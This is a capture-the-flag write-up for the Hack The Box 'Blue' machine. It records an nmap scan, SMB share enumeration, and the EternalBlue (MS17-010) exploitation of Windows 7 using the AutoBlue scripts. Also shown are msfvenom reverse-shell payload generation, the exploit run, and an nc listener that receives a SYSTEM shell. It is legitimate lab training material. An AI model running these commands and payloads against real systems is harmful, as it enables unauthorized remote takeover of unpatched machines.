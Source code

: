 # Blue

Machine Level: Easy <br />
OS: Windows

## Scanning 
I ran an aggressive NMAP scan to determine OS and versions of some of the services running on host ports. 
```
ajread@aj-ubuntu:~/hackthebox$ nmap -A [TARGET IP]
Starting Nmap 7.80 ( https://nmap.org ) at 2023-01-17 20:23 CST
Nmap scan report for [TARGET IP]
Host is up (0.083s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  tcpwrapped
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 1s
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-01-18T02:25:03
|_  start_date: 2023-01-18T02:23:11

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 111.82 seconds
```
It looked like this can be exploited using eternalblue or a similar exploit. 
## Initial Access
I had to look at the service running on port 445 using ```smbclient```. 
```
ajread@aj-ubuntu:~/hackthebox$ smbclient -L [TARGET IP] -U guest
Password for [WORKGROUP\guest]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Share           Disk      
	Users           Disk      
SMB1 disabled -- no workgroup available
```
There wasnt anything in any of the fileshares as guest. 

I used the exploit found [here](https://github.com/3ndG4me/AutoBlue-MS17-010) since metasploit was not working for me. After successfully prepping my OS with the required dependencies, I was able to create a payload with ```msfvenom```. 
```
ajread@aj-ubuntu:~/hackthebox/playground/AutoBlue-MS17-010/shellcode$ ./shell_prep.sh 
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz

Compiling x64 kernel shellcode
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
y
LHOST for reverse connection:
[LOCAL IP]
LPORT you want x64 to listen on:
6666
LPORT you want x86 to listen on:
6666
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
1
Type 0 to generate a staged payload or 1 to generate a stageless payload
1
Generating x64 cmd shell (stageless)...

msfvenom -p windows/x64/shell_reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=[LOCAL IP]LPORT=6666
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Saved as: sc_x64_msf.bin

Generating x86 cmd shell (stageless)...

msfvenom -p windows/shell_reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=[LOCAL IP]LPORT=6666
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Saved as: sc_x86_msf.bin

MERGING SHELLCODE WOOOO!!!
DONE
```
I ran the exploit and with a listener on a seperate terminal. 
```
ajread@aj-ubuntu:~/hackthebox/playground/AutoBlue-MS17-010$ python2.7 eternalblue_exploit7.py [TARGET IP] ./shellcode/sc_x64.bin 
shellcode size: 1232
numGroomConn: 13
Target OS: Windows 7 Professional 7601 Service Pack 1
SMB1 session setup allocate nonpaged pool success
SMB1 session setup allocate nonpaged pool success
good response status: INVALID_PARAMETER
done
```
And I dropped into a shell as administrator. 
```
ajread@aj-ubuntu:~$ nc -lnvp 6666
Listening on 0.0.0.0 6666
Connection received on [TARGET IP] 49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
There was no privilege escalation necessary and I was able to get both user and admin flags.
```
C:\Users\haris\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is BE92-053B

 Directory of C:\Users\haris\Desktop

24/12/2017  02:23    <DIR>          .
24/12/2017  02:23    <DIR>          ..
19/01/2023  21:36                34 user.txt
               1 File(s)             34 bytes
               2 Dir(s)   2,170,183,680 bytes free
``` 
```
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is BE92-053B

 Directory of C:\Users\Administrator\Desktop

24/12/2017  02:22    <DIR>          .
24/12/2017  02:22    <DIR>          ..
19/01/2023  21:36                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   2,170,175,488 bytes free
```
I had a lot of issues running this exploit as metasploit didnt work. I found that AutoBlue was the best route. I had to have the machine reset right before running the exploit to get the cleanest target. 

